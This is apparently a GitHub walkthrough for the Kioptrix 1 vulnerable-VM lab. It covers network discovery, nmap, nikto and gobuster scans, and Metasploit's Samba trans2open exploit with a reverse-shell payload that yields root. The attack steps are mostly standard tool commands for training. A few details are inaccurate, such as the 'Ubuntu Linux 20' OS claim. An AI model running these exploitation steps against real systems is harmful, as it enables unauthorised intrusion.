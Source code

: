 # The Kioptrix 1 Heist:Steal The Flag ,Earn The Glory

Gear up, young hackers! White J here and welcome to our epic adventure through the vulnerable machine, Kioptrix 1
Your task,should you choose to accept it, is to infiltrate Kioptrix 1, exploit its weakness, and claim victory by claiming root access. Your tools-VirtualBox/Vmware,Kali(or your preffered hacking distro), some basic Linux skills and some pentesting know-how, don't worry,WhiteJ's here to guide you

The difficulty level can be considered beginner friendly but it does contains multiple, realistic vulnerabilities so stay sharp and don't get too cocky 😎. Download the [Kioptrix 1 Machine here](https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar) and get ready to unleash your inner cybersecurity warrior.

## Setting Up Your Environment
Before we dive in, we need our attacking machine to communicate with the victim’s machine. VirtualBox (VBox) remains my go-to
We have two options:
NatNetwork: Create a new NatNetwork connection for both machines so they can chat easily.
###### OR 
Bridged Network: Use a bridged network, making sure both machines connect to the same adapter.With the right setup, we’ll be ready to jump into some exciting penetration testing

Firstly find your IP address using **ifconfig**

```sh
ifconfig
```
we need to determine the IP address of the target machine by running an arp scan or netdiscover

```sh 
"sudo arp-scan -l"
```

#### Or

``` sh 
"sudo netdiscover -i eth0 -r <Ip address range>.0/24 "
```

Another key step after establishing the connection is to verify the machine's internet access with a ping scan (many guides just expect you to know this!).
Start by doing a quick ping scan—commonly to Google—to see how packets are sent and received.
![alt img](images/ping.png)

Next, ping the victim's IP address to confirm the host is active and can communicate.


Alright, we’re all set:
Communication check ✔️✔️✔️
Internet connection check ✔️✔️✔️

## Gathering Information with Nmap

Let's start gathering some juicy information about our target system using Nmap. We'll use the following command to scan for open ports and identify the services running on those ports:
```sh
nmap -sV -sC -A -p- <Victim's IP address>
```
![alt img](images/nmap.png)
![alt img](images/nmap2.png)


Based on the results from the Nmap scan, we observe the following open ports and services:

| **PORT** | **SERVICE**       | **VERSION**                                                      |
|----------|-------------------|------------------------------------------------------------------|
| 22       | SSH               | OpenSSH 2.9p2 (protocol 1.99)                                    |
| 80       | HTTP              | Apache HTTPD 1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL |
| 111      | RPCBind           | Version 2                                                       |
| 139      | NetBIOS-SSN       | Samba smbd (Workgroup: MYGROUP)                                  |
| 443      | SSL/HTTPS         | Apache HTTPD 1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL |
| 1024     | Status            | RPC service (RPC #100024)                                       |

The operating system is detected as **Linux 2.4.X** (likely embedded), specifically **Ubuntu Linux 20**.

##  Nikto Scan

Using Nikto to check  web vunerabilities

```sh
"sudo nikto -h http://<Ip Address of Victim Machine>"

```

 ![alt img](images/nikto.png)

We see couple of vulnerable and outdated protocol versions that looks juicy

## HTTP Pages – Let’s Have a Peek!

Alright, let’s take a little tour of the HTTP pages that Nmap discovered. Spoiler alert: It's not the Louvre, but it’s still fun!

### **Port 80 – The Default Apache Page (Yawn...)**

![Default Apache Page](images/index.png)  
Yep, just your classic, default Apache page. Not much happening here, but hey, it's *still* a web page!

---

### **What about the source page, anything?–The Secret Hidden Gem? (Maybe?)**
![page source](images/source.png)

What’s this? Something interesting? Maybe, maybe not. We’ll just have to keep guessing!

---

### **test/php – Another One? Let’s See…**

![testpage](images/testphp.png)  

Looks like this one's giving us a bit more action. Still not sure if it’s a secret lair or just a page no one bothered to take down!

## Let’s Dig Deeper – Gobuster to the Rescue!

Time to play detective! Let’s search for hidden directories using Gobuster.

```sh
gobuster dir -u http://<ip address> -w /usr/share/dirbuster/wordlists/directory
```
![Port testpage](images/gobuster.png)  
Well, that was a bit of a letdown. No hidden treasures here—just the same old, same old. No secret pages, no hidden directories. Maybe next time,Gobuster


## Gaining Shell Access with msfconsole

Alright, let’s get our hands dirty! We’ve mapped out the target, found some open ports, and now it’s time to break in and gain shell access. Enter **msfconsole**, our trusty Metasploit framework, ready to exploit vulnerabilities and give us a foothold in the system.

```sh
msfcosole
```
![msfconsole](images/msfconsole.png)  

We’re going to launch an exploit, pick the right payload, and get that sweet shell access. Think of this like unlocking a door to a new world—except this door is on a remote system, and we have the key

## Getting a Shell via SMB with msfconsole

Alright, let’s get down to some SMB shenanigans! SMB (Server Message Block) is typically used for file sharing, but sometimes it just wants to be a little *too* helpful and lets us sneak right in. We’ll use **msfconsole** to take advantage of a juicy SMB vulnerability and grab ourselves a shell.

### The Game Plan:
**Spot the SMB service**: We already found SMB chilling on port 139 during our scan. But we need to know the  version it is running

```sh
search smb_version
```
![smb version](images/smbv.png) 

So we found out the version, **Samba 2.2.1a**. Now let's check for its weakness

![vulnerabilty](images/rapid.png)

Indeed it is vulnerable to **trans2open overflow** which allows for remote buffer. Now that is reallllll juicyyy 

```sh
search trans2open
use 1

```

Now we just have to  dig through the meterpreter and find the best exploits to use, configure-Set the target (RHOST-target IP ), the payload, and hit that exploit button.

```sh
set rhost <target IP address>
```

![rhost](images/rhost.png)

Set the payload to a reverse shell (because who doesn't love a good reverse shell?)

```sh
set payload generic/shell_reverse_tcp
```
 **Shell, Here We Come**: If all goes well, we’ll get a Meterpreter session and voila—control of the system!. Now, let’s hit "run" 

```sh
run
```


and — ta-da! 🎉
we are in! Got the root shell in no time.

![Root](images/root.png)


## And That’s a Wrap! 🎉

Congratulations! You've just pwned Kioptrix 1 like a pro. With some clever Nmap scans, a sprinkle of Metasploit magic, and a dash of persistence, you've earned yourself a shiny new root shell. 

It's all in a day’s work for a hacker-in-training, right? 😎

Remember, every machine you conquer is another step closer to becoming a cybersecurity ninja. Keep hacking, keep learning, and most importantly... stay curious! 🚀

Until next time, happy pentesting! WhiteJ👾🔓
